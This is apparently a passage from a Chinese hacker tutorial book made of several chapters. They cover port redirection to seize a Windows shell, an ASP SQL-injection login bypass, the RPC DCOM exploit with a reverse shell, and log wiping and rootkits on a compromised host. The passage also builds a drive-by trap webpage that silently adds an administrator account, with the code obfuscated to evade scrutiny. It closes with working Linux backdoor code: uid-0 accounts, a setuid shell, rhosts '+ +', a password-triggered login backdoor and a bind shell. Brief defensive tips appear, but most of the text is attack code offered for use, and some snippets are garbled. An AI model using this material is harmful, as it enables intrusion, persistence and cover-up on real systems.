好了！一切完毕，现在就Telnet到这个机器上。进去后还不是我的最终目的，我的目的是干掉64.135.X.10这个主系统，但现在我已入侵了他的分布新闻系统，所以64.135.X.10早晚得连接这个服务器来提取网页。
经过多方面的考虑，我决定用“端口重向”技术来入侵。所谓端口转向功能，就主机对某个端口的请求转向到其他电脑上。
如果64.135.X.10来这里拿网页，应该连接对方的23端口，所以我把端口重向在23端口上。这里我用到了Fpipe.exe这个工具。这个程序首先在64.135.X.224开23端口来监听，当有连接请求时，端口转向就启动，马上将这个请求转向64.135.X.10的23端口。

求转向64.135.X.10的23端口。

```
C:\>fpipe -l 23 -s 22 -r 23 64.135.X.10
Fpipe v2.1 - TCP/UDP port redirector
Copyright 2000. <c> by Foundstone Inc.
http://www.foundstone.com
```

最后经过漫长的等待，我盼望已久的界面终于出来了：

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\WINNT\system32>
```

呵呵！接下来我干什么就不说了，大家都应该知道吧！

## 防范

- 1. 应该屏蔽特殊字符，例如“|”或“;”之类的符号。这是许多ASP程序员的失误点。
2. 涉及用户名和密码的程序最好少在ASP文件里出现。
3. 使用安全的密码策略。
4. 即时打上相应补丁。
5. 严格控制数据库用户权限，轻易不要让其他用户拥有对数据库表的直接查询、修改、插入、删除等权限。

现在黑客很多人入侵数据库都是调用xp_cmdshell，所以我们可用以下的sql语句：

```
use master
sp_dropextendedproc 'XP_cmdshell'
```


# 黑客入门实例精讲

## 网络安全防御揭秘
### —— 实战攻克口令验证漏洞

成功攻入一个系统不可能总利用直接攻击的手法，并且在现实情况下，这种直接攻击的手法逐渐失效（现在的系统日益坚固）。相比之下间接攻击技术有时更实用！下面就给大家演示如何使用ASP口令验证漏洞来突破有密码限制的网页。

大家平时在网络上是不是常见到图1所示的网页啊！如果想进入这种网页，必须注册才能得到密码，有时注册还要交费。如果你很想看里面的内容而又不想注册交钱该怎么办啊？那我们就用攻击手法！


### ASP口令验证漏洞

#### 1. ASP口令验证漏洞是什么样的

大家上网时应该在很多地方都能看到上面图1所示的网页。这个页面的功能就是对用户的进入做限制，它只让知道正确用户和密码的人进入，如果输入密码错误，就会自动蹦到图2所示的界面。

#### 2. 网页口令验证原理

大家都看到图2中URL里的“jiangchao.asp”了吧！这个jiangchao.asp是来验证是否有资格进入页面的关键。那么我们就来看看口令验证的ASP部分。


```
Dim strsql,recordset
strsql="select * from accounts where user='" & user
strsql=strsql & "' and password='" & password & "'"
set recordset=GetsqlRecordset(strsql,"conan.mdb","accounts")

If recordset.EOF Then
Response.Write "对不起！您输入的帐号或密码有错误，请输入正确帐号和密码。"
Response.End
End If
```

如果大家懂一点编程，就很容易理解代码的意思，这些数据都存在 conan.mdb 的数据库文件里。当用户在登陆图 1 的界面后，再输入用户和密码点击登陆，就会通过 jiangchao.asp 里的以下部分：

```
strsql="select * from accounts where user=" & user
strsql=strsql & " and password=" & password & ""
```

这两行代码和数据进行比较，它们的作用是把使用者在页面上输入的用户名和密码与 conan.mdb 里的用户名和密码进行比较，如果对比成功就会进入正常页面，如果对比错误，就会跳到报告有错误信息的页面，具体请看图 3。


#### 3. ASP 漏洞具体分析

掌握完前面的知识后，现在我们来研究一下 ASP 口令验证的原理！

当我们在网页里输入帐号“jiangchao”，密码“12345”后，点击“确定”，服务器收到数据后把数据传送给“jiangchao.ASP”程序前，然后将 user 设为“jiangchao”字符串，password 设为“12345”字符串。在实例中我拿 user 和 password 两个变量换成 jiangchao 和 12345 代替，所以由原来的 sql 语句

```
strsql="select * from accounts where user=" & user
strsql=strsql & " and password=" & password & ""
```

变成新的：

```
strsql="select * from accounts where user=" & jiangchao
strsql=strsql & " and password=" & 12345 & ""
```

具体语法示意图如图 4。


> 在执行这个程序前，要先把与内容替换成对应的字符串，所以使用者如果输入帐号 jiangchao，密码12345，程序执行前就会转换成下面的语句：

```
strsql="select * from accounts where user=" & jiangchao
strsql=strsql & " and password=" & 12345 & ""
…
select * from accounts where user=jiangchao and password=12345
```

如果我输入用户名：jiangchao' or user<>jiangchao
密码：jiangchao' or password<>jiangchao
程序就会变成如下语句：

```
strsql="select * from accounts where user=" & jiangchao' or user<>jiangchao
strsql=strsql & " and password=" & jiangchao' or password<>jiangchao
```

## 安全之路：从黑客入门实例精讲

到这里，本文的漏洞就指出来了，就是我们输入的数据内容可变成程序代码的一部分。最初的数据库验证使用者的程序如下：

```sql
select * from accounts where user=' 用户 ' and password=' 口令 '
```

但当大家输入特定的帐号和口令后，数据库验证程序就变成：

```sql
select * from accounts where user='jiangchao' or user<>'jiangchao' and password='jiangchao' or password<>'jiangchao'
```

它的检查逻辑是：当搜寻所有数据库的记录时，不管用户是jiangchao或不是jiangchao，密码不管是jiangchao或不是jiangchao，都是合法用户。

大家看了后是不是有点吃惊？竟然不管用户和密码是不是jiangchao，都属合法用户，那不是所有人都可成为合法用户了？不信就按照图5的方法去做。

按照图5的方法做完后，大家就可成功进入正确网页。这就是ASP口令验证的漏洞实验。那么黑客在实际中是怎么利用这个漏洞的呢？接着往下看吧！


### ASP口令验证漏洞的利用

看完上面ASP口令验证漏洞的原理后，是不是很容易就能利用这个方法入侵呢？其实并没有那么容易，成功的关键是要首先知道对方数据库里的帐号和口令的字段名称。

比如数据库中帐号和口令的字段名称是“user”和“password”，那么原来的程序就会改成：

```asp
strsql=" select * from accounts where user='" & id
strsql=strsql & "' and password='" & password &
"'"
select * from accounts where user=' 帐号 ' and password=' 口令 '
```

前面帐号“jiangchao' or user<>'jiangchao”口令：“jiangchao' or password<>'jiangchao”的输入结果如下：

```asp
strsql="select * from accounts where user='" & jiangchao' or user<>'jiangchao
strsql=strsql & "' and password='" & 'jiangchao' or user<>'jiangchao & "'"
select * from accounts where user='jiangchao' or user<>'jiangchao' and password='jiangchao' or user<>'jiangchao'
```

因为数据库帐号和口令的字段名现在是“user”和“password”，所以对这2行进行判断是：

```
"user<>'jiangchao'" 和 "password<>'jiangchao'"
```

这样SQL查询就找不到字段名称的错误了。既然危害这么大，那我们应该怎么防护呢？

### ASP口令验证漏洞的防护

有关这个漏洞的防护方法，现在都没有十全十美的办法，不过大家可用如下方法做到安全基础化：

- 1.可让功底较深厚的ASP程序员对你编写的代码进行检查，或自己不要在程序里出现user、id、name、pwd、password等字段名称。
- 2.在ASP程序里加入以下代码可防止非法入侵者使用“'”字符：

```asp
If (Instr(ny,id, "'") > 0) then
Else
    Strsql= "select * from accounts where id=" & id
    Strsql = strsql & " and password= '" & password & "'"
End If
```

这样就可阻挡入侵者使用“'”符号了。
好了，ASP口令验证漏洞的原理和防护就简单说到这里。


2003年，微软操作系统有史以来最大的漏洞诞生了，不知道这是黑客们的福音还是网络管理员们的灾难？嘻嘻，先不说废话了，切入正题。这个漏洞为什么这么可怕呢？请看下面漏洞的报告：

- **漏洞类型：** 攻击入侵型
- **漏洞威胁：** 极高
- **影响平台：** Windows NT 4.0/Windows 2000/Windows XP/Windows 2003 Server

### 漏洞介绍

大家都看到这个漏洞影响的平台有哪些了吧！全球1/3的系统都是微软的，这个漏洞几乎在微软所有版本的服务器都存在。这个极度危险的漏洞万恶之源在哪儿呢？这就是我下面要讲的。

这个漏洞主要来自微软服务器系统的RPC服务（全称：Remote Procedure Call），它是Windows操作系统使用的一种远程过程调用协议，RPC能提供进程间的通信。这个漏洞影响使用RPC的DCOM接口，也就是分布式组件对象模块。使用DCOM可以远程操作其他电脑中的DCOM应用程序。

要利用这个漏洞，攻击者需要发送特殊形式的请求到远程机器上的135端口。攻击轻则造成拒绝服务攻击，严重可让远程攻击者以本地管理员权限执行任何操作。

漏洞发现后，国内的安全焦点网站立即推出了攻击的exploit，看来现在漏洞攻击代码的出现速度很快。由于利用这个RPC漏洞可远程攻击对方服务器并且得到管理员权限，因此被称为微软最近最大的漏洞。

### 入侵实战

目前黑客都用rpc.exe来入侵有135漏洞的服务器：

```
C:\>rpc.exe
RPC DCOM overflow Vulnerability discovered by LSD
Code by FlashSky, Flashsky xfocus.org, benjurry, benjurry xfocus.org
Welcome to our English Site. http://www.xfocus.org
Welcome to our Chinese Site. http://www.xfocus.net
usage:rpc.exe targetip localIP LocalPort SPVersion
SPVersion:
0 w2k Chinese version +sp3
1 w2k Chinese version +SP4
2 winxp English version +sp1
```

软件说明：这里的“targetip”就是要攻击对方的IP地址；“localip”和“localport”是要监听返回的shell的地址和端口，一定要用公网IP地址；“Spversion”就是你所测试机器的类型，对应下面的0、1、2的三个类型，分别是打了SP3和SP4的Win2k，还有打了SP1的Windows XP系统。

因为漏洞来自RPC，而135端口又是RPC服务的必经道路。所以大家最好使用专门端口的扫描器来扫描，建议大家使用SuperScan，然后在里面选定只扫描135端口。

在本机上打开一个端口监听，然后运行exploit，让目标机器溢出后返回shell到你监听的机器上（图1、图2）。


成功进入系统后，就不用我说该做什么了吧！赶快留后门，大家可参考本书有关后门栏目的文章。

### 经验总结

在测试中也有失败的时候，经过总结，失败原因如下：

- 1. 实践过程中发现经过的路由越多，成功率就越低，有可能是经过路由后构造的rpc包改变造成的。
- 2. 在渗透中有时容易造成拒绝服务，就是测试了type 0，再测试type 1时就连接不上了。

### 漏洞防护

简单分析了RPC漏洞的利用和黑客用的软件手法后，大家如何对这个漏洞进行防护呢？请往下看：

- 打补丁法
最简单，最行之有效且不影响功能的办法就是针对漏洞打补丁。下面给出针对系统的补丁地址：

#### Microsoft Windows 2000：

- ① All except Japanese NEC
http://microsoft.com/downloads/details.aspx?FamilyId=BD55EB38-A5DE-4810-90F7-097C5B4B9919&displaylang=en
- ② Japanese NEC
http://microsoft.com/downloads/details.aspx?FamilyId=3F7DCODA-A684-43A8-B2E3-1EEDEEDC822C&displaylang=ja

#### Windows XP：

- ① 32—bit Edition
http://microsoft.com/downloads/details.aspx?FamilyId=94213569-3258-4439-9AE7-5D86813B4D9E&displaylang=en
- ② 64—bit edition
http://microsoft.com/downloads/details.aspx?FamilyId=E3FB88CF-FA48-4426-A4F8-D18D8D4D2295&displaylang=en

#### 2 禁止 RPC 服务法

最简单、最省事的方法就是停止 RPC 服务，运行 dcomcnfg.exe，选择 services（local），即服务。在里面找到 Remote Procedure Call（RPC）服务，关掉即可。

#### 3 修改注册表法

将 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ServicesRpcSs 的键值由0x02改为0x04后，再重起机器就可以了。但由于Windows的很多服务都基于RPC，关掉RPC服务后，这些基于RPC的服务将不能正常启动。

#### 4 禁用 DCOM 法

首先进入命令行状态，然后运行dcomcnfg.exe。进入“console Root→Component Services→Computers”，右键点击“My Computer”，选择“Properties”，选择“Defaults Properties”标签页，将“Enable Distributed COM on this computer”前面复选框的勾去掉（图3）。

#### 5 配置防火墙法

可配置防火墙拒绝来自不信任IP地址的135端口访问，这样就可安全拒绝外部攻击。呵呵！如果内部要攻击你就没办法了。

由于本人技术有限，所以没有更深层的研究，如果大家有什么疑问，可通过论坛与我联系（www.hackerxfiles.net/bbs）！


图3

## 一次典型的入侵分析

现在的黑客后门手法可谓越来越高超，写本文的目的就是想让大家看看黑客的手法。下面是一次典型的入侵分析。

某日，我登陆肉鸡后，竟然发现了一件奇怪的事！大家想知道是什么事吗？请看正文。

```
C:\ping -ll 77 211.101.4.100
```

这里可不是随便ping的啊！这个命令是激活我当时下的Worm（加载的ICMP）后门。

```
[root@linux /]# nc -v 211.101.4.100 65535
```

登上肉鸡用nc连接。

```
export xxxxxx=xxxx
unlogin 后门，worm 加载的。
```

```
telnet 61.168.23.4
```

```
[root@mail /]#w
```

看看有没有人?现在舒服多了。

```
xxxx up xxx:xx, 0 users, load average: xxx,xxx,xxx
```

```
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
```

哈，现在没人，那就可以自由的游荡了。

```
[root@mail /]#ps
```

看看有什么进程，可别被人反监视啊！

```
5227 ? S 0:00 in.telnetd: ppp-123-168.21-151.libero.it
5232 pts/2 S 0:00 /bin/login -h ppp-123-168.21-151.libero.it -p
6125 ? SN 0:00 ./synscan 211.skan211 eth0:7 21
6130 ? S 0:00 in.telnetd: 211.91.114.135
6136 pts/4 R 1:48 /bin/login -h 211.91.114.135 -p
6208 ? SN 0:00 ./synscan 211.skan211 eth0:7 21
6307 ? SN 0:00 ./synscan 211.skan211 eth0:7 21
6316 ? SN 0:00 ./synscan 211.skan211 eth0:7 21
6332 ? SN 0:00 ./synscan 211.skan211 eth0:7 21
```

哦！原来这里还有两个和我一样的人！

```
[root@mail /]#last 'C10
```

先不动他，看看以往的登陆情况

```
last: /var/log/wtmp: No such file or directory
Perhaps this file was removed by the operator to prevent logging last info.
```


# 黑客入门实例精讲

哈哈！怎么把记录全删除了？这个笨蛋，不是更让人怀疑吗？

```
[root@mail /]#./cln.sh www
```

弄一个 cleanlog 上去，测试一下是不是日志全部都在，“www” 这个用户在这台服务器上不存在。我故意这么做是为了破坏现场！


怎么一个都没有？

```
[root@mail /]#du /var/log
du: /var/log: No such file or directory
```

真干净，为什么全部删除呢？容易被发现的。

```
[root@mail /]#kill 5227
[root@mail /]#kill 6130
```

不管那么多了，先踢他俩下去再说。

```
[root@mail /]#cd /etc/rc.d/init.d
```

进去看看

```
[root@mail /]#ls -al
-rw-r--r--  1 root root  6 Jun 19 12:31 named.lock
-rwxr-xr-x  1 root root 3360 Aug 22 2000 netfs
-rwxr-xr-x  1 root root 5812 Aug 7 2000 network
-rwxr-xr-x  1 root root 2257 Aug 3 2000 nfs
-rwxr-xr-x  1 root root 1722 Aug 3 2000 nfslock
-r-xr-xr-x  1 root root 4077 Aug 23 2000 pcmcia
-rwxr-xr-x  1 root root 1388 Aug 10 2000 portmap
-rwxr-xr-x  1 root root 1492 Aug 8 2000 pppoe
-rwxr-xr-x  1 root root 1541 Aug 3 2000 random
-rwxr-xr-x  1 root root 2264 Jul 25 2000 rawdevices
-rwxr-xr-x  1 root root 1325 Aug 28 2000 rnsd
-rwxr-xr-x  1 root root 1010 Aug 6 2000 rsrad
```

时间都是 2000 年的，真没被改动过？我不信！一般入侵者要放置后门之类的，修改 network 文件的机率很高，我们先看看他！

```
[root@mail /]#stat network
  File: "network"
  Size: 5812	Blocks: 12	Regular File
Access: (0755/-rwxr-xr-x)	Uid: (	0/	root)	Gid: (	0/	root)
Device: 308h/776d	Inode: 8044	Links: 1
Access: Sat Sep  1 22:58:02 2001
Modify: Mon Aug  7 11:37:03 2000
Change: Fri Jun  1 13:55:51 2001
```

正点！原来被 touch 到 2000 年的。最后修改时间是 2001-06-01。

```
[root@mail /]#more network
```

一句一句检查……

```
/usr/doc/lib/.sounds
```

这是什么？没听说过。

```
[root@mail /]#file /usr/doc/lib/.sounds
```

看看是什么？

```
network: Bourne shell script text
```

是 shell 脚本，开始有趣了！

```
[root@mail /]#more /usr/doc/lib./soundd
```

一句一句检查，好累啊！
乱七八糟一大堆东西，看不明白干什么用的？

./clean

清除什么？

./bd

不会是 backdoor 吧？

```
...........
[root@mail /]#cd /usr/doc/lib/
```

进去看看！

```
[root@mail /]#ll
total 12
drwxrwxrwx 8 root root 4096 Sep 1 23:09
drwxr-xr-x 3 root root 4096 Aug 18 05:14
drwxr-xr-x 11 root root 4096 Apr 11 08:04
```

明明有东西的，藏起来了！

```
[root@mail /]#du
55 ./clean
28 ./bd
38946 ./lpd.o
114 ./syncan
.......
```

这里不全部列出来了，总之是乱七八糟一大堆，扫描器之类的！

```
[root@mail /]#file clean
```

看看他是什么

clean: Bourne shell script text

又是 shell 脚本，呵呵，够可以的，全部是自己做的？

```
[root@mail /]#more clean
#!/bin/bash
rm -rf /var/log;
.........
```

像上面这样删除一些日志和不知道是什么的文件，是最笨的办法。日志没了一定会被发现，管理员怎么这么笨？不会吧！

```
[root@mail /]#file bg
bg: Bourne shell script text 又是一个 shell 脚本
[root@mail /]#more bg
#!/bin/bash
/sbin/insmod lpd.o <====加载了
[root@mail /]#file lpd.o
/lib/modules/2.2.16-22/misc/ac97_codec.o: ELF 32-bit LSB relocatable, Intel 80386
    6, version 1, not stripped
```

一个内核模块 message 没了，也不知道它是做什么的，不过一定是个后门或其他黑东东。

再看网卡的情况(做什么用？当然是看看他有没有开设 sniffer 啦)。

```
[root@mail /]#/sbin/ifconfig -a
eth0 Link encap:Ethernet HWaddr 00:E0:81:02:95:8D
     inet addr:163.17.225.3 Bcast:163.17.225.255 Mask:255.255.255.0
     UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
     RX packets:4136322 errors:15 dropped:0 overruns:0 frame:0
     TX packets:17932194 errors:0 dropped:0 overruns:0 carrier:0
     collisions:0 txqueuelen:100
```

82 黑客X档案

```
Interrupt:9 Base address:0xdf00
eth0:7 Link encap:Ethernet HWaddr 00:E0:81:02:95:8D
inet addr:163.17.225.7 Bcast:1.2.3.4
Mask:255.255.0.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
Interrupt:9 Base address:0xdf00
eth0:7 Link encap:Ethernet HWaddr 00:E0:81:02:95:8D
inet addr:1.2.3.4 Bcast:1.255.255.255
Mask:255.0.0.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
Interrupt:9 Base address:0xdf00
eth0:9 Link encap:Ethernet HWaddr 00:E0:81:02:95:8D
inet addr:163.17.225.9 Bcast:1.2.3.4
Mask:255.255.0.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
Interrupt:9 Base address:0xdf00
```

```
*device eth0: left promiscuous mode *
eth0: card reports no resources
eth0: card reports no resources
eth0: card reports no resources
eth0: card reports no resources
eth0 PROTO=6 211.124.241.104:0 163.17.225.3:0 L=40 S=0x00 I=0 F=0x0001 T=231 (#0)
eth0: card reports no resources
eth0: card reports no resources
```

长达十几K的输出，省略……十分可疑！

**[root@mail /]# dmesg|grep eth0**

过滤一下看看，不会头晕！

```
eth0: OEM 182557/182558 10/100 Ethernet 00:E0:81:02:95:8D I/O at 0xdf00 IRQ:9

eth0: card reports no resources
eth0 PROTO=6 211.14.255.39:0 163.17.225.3:0 L=40 S=0x00 I=0 F=0x000 T=235 (#0)
eth0 PROTO=6 211.22.72.105:0 163.17.225.3:0 L=40 S=0x00 I=0 F=0x000 T=242 (#0)
/device eth0 entered promiscuous mode
device eth0 left promiscuous mode
device eth0 entered promiscuous mode
```

看见上面/*... */之间的没有？开了sniffer！这台服务器配置应该算是不错，被他们这么折腾速度还不慢。如果猜得没错，这些工具应该是个rootkit包之类的东东，具体是什么rootkit包，我就不去调查了。

基本思路搞清楚了，就是一个较普通的典型入侵后放置后门，挂上sniffer以及扫描程序继续攻击其他网段。有一点必须提醒各位新手，入侵之后完全删除log一定不是一个好主意。给管理员的忠告：如果哪天日志文件大量丢失，那么你的服务器多半被入侵了！每次上服务器别忘记仔细检查服务器的进程，以及通过netstat -an命令检查服务器的当前网络状态。

这次入侵分析就到这里，大家了解了黑客的很多入侵手法吧，不过主要的不是运用这些手法去破坏别人，而是通过这些黑客技术来好好保护自己或他人的系统。

# 黑客入门实例精讲


如今，相信90%以上的人都是利用重大漏洞的溢出工具进行入侵的，但现在网络安全已成为各国的主要话题，所以漏洞很快就弥补上了。这样大家利用直接入侵攻击的机会就微乎其微了，那我们怎么办呢？作为一个网络安全爱好者，除了利用漏洞入侵外，还得会用社会工程学，下面就是我的一次另类入侵方式。

一次，朋友说他的网站经过严密的保护措施，让我给他渗透一下，首先告诉我他机器现在的情况：

- 已经给机器打了SP3的补丁。
- 用的是IE5.0浏览器，而且弥补了所有已知漏洞，并做了少许安全配置。
- 服务器内还架了诺顿防火墙。

知道他的基本信息后，我开始了渗透工作。

首先扫描他的机器，确认是不是把已知漏洞弥补上了。结果不出所料，防护的确实不错，看来不能利用漏洞入侵了。下一步，拿起SuperScan来看一下他开了什么端口（图1）。


哇！他服务器开的端口居然这么多，而且从中还找不出什么漏洞，真是个配置服务器的高手啊！于是我就对每个端口进行分析渗透，但最后还是以失败告终。既然这些端口没有任何利用价值，看来他的服务器的确很坚固。所以得从别的方面下手。

他机器的安全程度对我来说是无懈可击，不过我发现的浏览器是IE5.0（IE5.0具有很多严重漏洞），这也就意味着有执行exe文件的漏洞。我就运用一下社会工程学，看看效果怎么样（说白了就是利用骗术来诱使对方上当，以达到目的的技术）！

于是我利用现在网络上最流行的网页木马攻击方法，把一个exe程序放到网页里，然后让他浏览一次陷阱网页。不过回头再想一想，他的机器里有诺顿防火墙，这可是我认为最出色的防火墙啊，基本能杀掉所有已知病毒和木马。看来不能用网上流行的小马了，不过我可以自己做个后门程序呀！

我比较熟悉VB，所以决定用它做一个，这样杀毒软件就查杀不到。我们想要的结果是在他的服务器里建立一个System权限帐号。

首先打开VB6.0，然后把窗体的Visible属性设置成False，目的是为了执行后窗体不显示。然后进入代码区域填写代码，这里我运用VB下的Shell语句来写，如图2。


代码如下：

```vb
Private Sub Form_Load()
On Error Resume Next
'如果出错，则执行下一命令
Shell "net user jiangchao 12345 /add" vbHide
'添加用户名为jiangchao 密码为12345的用户
Shell "net use localgroup administrators jiangchao" vbHide
'把jiangchao这个用户添加到管理员组里
Unload Me
End Sub
```

好了，我们现在把这个程序生成为play.exe的文件，然后自己做个较好的网页（目的是迷惑对方），以引诱对方去浏览的陷阱网页。做完网页后把以下代码插入到网页的代码中：

```html
<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>
<script>
```

# 黑客入门实例精讲

```html
<document.write(<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>);
function f(){
try
{
//ActiveX initialization
a1=document.applets[0];
a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Shl = a1.GetObject();
a1.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
a1.createInstance();
FSO = a1.GetObject();
a1.setCLSID("{F935DC26-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Net = a1.GetObject();
try
{
if (documents.cookie.indexOf("Chg") == -1)
{
//改写注册表项
Shl.RegWrite ("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\Zones\\3\\1004", 0, "REG_DWORD");<br>
var expdate = new Date((new Date()).getTime() + (1));<br>
documents.cookie="Chg=general; expires=" + expdate.toGMTString() + "; path=/";<br>
//结束注册表改写
}
}
catch(e)
{}
}
catch(e)
{}
}
function init()
{
setTimeout("f()", 1000);
}
init();
</script>

<script language="javascript">
run_exe="<OBJECT ID=\"RUNIT\" WIDTH=0 HEIGHT=0 TYPE=\"application/x-oleobject\"";
run_exe+="CODEBASE=\"paly.exe#Version=1,1,1,1\">"; //这里的paly.exe就是让别人执行的文件
run_exe+="<PARAM NAME=\"Version\" value=\"65536\">";
run_exe+="</OBJECT>";
run_exe+="<HTML><H1>正在下载打开paly.exe</H1></HTML>";
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
<center><font color=red>测试成功</font></center><br>
<center>jiangchao</center><br>
```

以上嵌在网页里的代码意思是：对方浏览此网页后，就直接执行这个play.exe文件，那时他机器里就会多一个用户。但对方的管理员是个老手，万一他查看网页里的代码内容，那不就暴露了？为了使网页里的这段代码保密，我们要把这段代码进行简单加密。为方便，我进入了一个可加密HTML代码的网页，把这段代码进行加密（图3）。


大家都看到了吧！上面框里的是网页源代码，下面是把源代码加密后的代码。就这样，我们达到了简单加密的目的。

以上就是这个陷阱网页的制作方法，做完后把它放到自己的Web服务器里，然后把这个网页地址发给我的朋友，之后就等待他浏览我的网页了。

呵呵！没想到后来他很轻松就中了我的圈套（也许是信赖我的缘故），没多久他就登陆了我的陷阱网页。哎！IE5.0真是害人啊！最后我用jiangchao这个用户从他的23端口登陆进去了。因为我这次是做了一个渗透，所以没有在他机器上做任何手脚！

注意：如果大家用的是Win98，没有Web服务功能，那怎么办呢？现在网上有很多文件可让Win98具有Web功能，这里给大家介绍一个软件——easyshost.exe（光盘中有收录）。这是一个可开Web服务的软件，可用在Win98上，是不是很Cool啊（图4）☺


HackerXFiles 85


## 前言

当成功地入侵了一个系统后，要想好好的保护自己的肉鸡，不让管理员发现，这也是一门技术，从中我们可以学习到很多命令，而且还可以锻炼自己的脑力，想出别人想不到的东西。

由于后门的技术非常多。所以我把一些常用的后门方法收集并且整理了一下，本栏目的后门技术在Win2k和linux下的都有，我们要全面发展，不要单一的了解win2k的后门技术，还要深入linux。除了普通的后门技术，我还介绍了黑客高手如何使用高等后门技术的文章。

大家做后门的目的除了下次更方便的进入外，就没有别的用处了吗？

其实我做后门不仅仅是为了下次的进入，我的目的是要充分利用肉鸡的资源来满足自己的需求，这才能体现黑客灵活的头脑。

以上这些内容全部收集在本栏目里，可以让大家一饱眼福！


## Linux 常见后门分析

现在网上和书上也常介绍关于Linux后门的文章，不过我总觉得太杂了，大家用的时候东找西找的十分不方便。这次我来总结一下Linux下常用而且实用的后门，还有我的一些经验。

> 我写的后门技巧顺序是由低级到高级。以下后门技巧必须在得到root权限下才能使用。

### 用户后门

因为在linux下，useradd(添加用户的命令)命令不能添加id号相同的用户，因为我们的目的是要得到root权限，所以我们要让添加的用户权限是最大的，也就是id号为0。所以我们要给/etc/passwd和/etc/shadow加个用户：
添加用户代码如下：

```
echo "r00t::0:0::/:/bin/sh" >> /etc/passwd
echo "r00t::::::::" >> /etc/shadow
```

这里我们为了不让管理员明显发现所以我们做了个外表象root的用户。

用c语言来实现这个后门backdoor1.c

```c
#include <stdio.h>
main()
{
FILE *fd;
fd=fopen("/etc/passwd","a+");
fprintf(fd,"r00t::0:0::/root:/bin/sh\n");
fd=fopen("/etc/shadow","a+");
fprintf(fd,"r00t::::::::\n");
}
```

### setuid 后门

使用方法：

```
cp /bin/bash /tmp/.bash
```

以后只要运行 /tmp/.sh 就可以得到 root。
不过/tmp的数据容易消除，可以放在其他的目录

> 注意：在一些较新版本的bash程序做了安全检查，有时候不能正常运行。所以要加参数-p。

然后用c编译如下代码即可。

```c
#include<stdio.h>
int main(){
setuid(0);
execl("/bin/bash","/usr/local/apache/bin/httpd",NULL);
}
```

编译一下再chmod 4755 ,chown root 就可以成功。

### rlogin 后门

在Unix机器中,象Rsh和Rlogin这样的服务是基于rhosts文件里的主机名使用简单的认证方法。用户可以轻易的改变设置而不需口令就能进入。入侵者只要向可以访问的某用户的rhosts文件中输入"++",就可以允许任何人从任何地方无须口令便能进入这个帐号。特别当home目录通过NFS向外共享时,入侵者更热中于此。这些帐号也成了入侵者再次侵入的后门。许多人更喜欢使用Rsh,因为它通常缺少日志能力。许多管理员经常检查"+ +"，所以入侵者实际上是设置来自网上的另一个帐号的主机名和用户名，从而不易被发现。

```
# echo "+ +" > /usr/bin/rhosts
# cat /usr/bin/rhosts
+ +
# rlogin -l root localhost
将不用输入密码直接用root帐号rlogin登陆进你的机器
```

### Login后门

```c
#include <stdio.h>
#if !defined(PASSWORD)
#define PASSWORD "jiangchao"
#endif
#if !defined(_PATH_LOGIN)
#define _PATH_LOGIN "/sbin/login"
#endif
main (argc, argv, envp)
int argc;
char **argv, **envp;
{
char *display = getenv("DISPLAY");
if ( display == NULL ) {
execve(_PATH_LOGIN, argv, envp);
perror(_PATH_LOGIN);
exit(1);
}
if (!strcmp(display,PASSWORD)) {
system("/bin/bash");
exit(1);
}
execve(_PATH_LOGIN, argv, envp);
exit(1);
}
```

连接方法：#export DISPLAY="jiangchao";telnet xx.xx.xx.xx:
由于每次连接的时候都要输入一大堆命令，很麻烦，下面是一段可以快速登陆Login后门的代码：

```c
#include <stdlib.h>
main( int argc, char *argv[]){
char buf[256];
if (argc != 3)
{
printf("Usage: %s <victim machine> <password>\n", argv[0]);
exit(0);
}
sprintf(buf, "DISPLAY=%s", argv[2]);
putenv(buf);
execl("/usr/bin/telnet", "telnet", argv[1], NULL);
perror("execl failed!\n");
}
```

检测方法：#strings /bin/login

### BindShell后门

在机器上开个指定端口进行连接的后门，代码如下：

```c
#define PORT 1234 /*默认密码为1234，可以自己改成喜欢的端口
#include <stdio.h>
#include <signal.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
int soc_des, soc_cli, soc_rc, soc_len, server_pid, cli_pid;
struct sockaddr_in serv_addr;
struct sockaddr_in client_addr;
int main (int argc, char *argv[])
{
int i;
for(i=0;i<argc;i++){
memset(argv[i], '\x0', strlen(argv[i]));
}
strcpy(argv[0],"[bash 
]");

soc_des = socket(AF_INET,
SOCK_STREAM, IPPROTO_TCP);
if (soc_des == -1)
    exit(-1);
bzero((char *) &serv_addr, sizeof
(serv_addr));
serv_addr.sin_family = AF_INET;
serv_addr.sin_addr.s_addr = htonl
(INADDR_ANY);
serv_addr.sin_port = htons(PORT);
soc_rc = bind(soc_des, (struct
sockaddr *) &serv_addr, sizeof(serv_addr));
if (soc_rc != 0)
    exit(-1);
if (fork() != 0)
    exit(0);
setgrp();
signal(SIGHUP, SIG_IGN);
if (fork() != 0)
    exit(0);
soc_rc = listen(soc_des, 5);
if (soc_rc != 0)
    exit(0);
while (1) {
    soc_len = sizeof
(client_addr);
    soc_cli = accept(soc_des,
(struct sockaddr *) &client_addr, &soc_len);
    if (soc_cli < 0)
        exit(0);
    cli_pid = getpid();
    server_pid = fork();
    if (server_pid != 0) {
        dup2(soc_cli,0);
        dup2(soc_cli,1);
        dup2(soc_cli,2);
        execl("/bin/sh",
"sh",(char *)0);
        close(soc_cli);
        exit(0);
    }
}
close(soc_cli);
}
```

好了，以上这些基础就是linux中最常见而且实用的后门分析以及代码了。

## LKM 内核模块后门

这种后门是有难度的，所以一般菜鸟并不常使用这种后门，不过我的《高手们的后门技术》一文里有介绍这方面的技术，如果感兴趣的话，可以阅读一下，希望大家掌握以上常用的后门技巧。

## 充分利用系统自带程序做后门

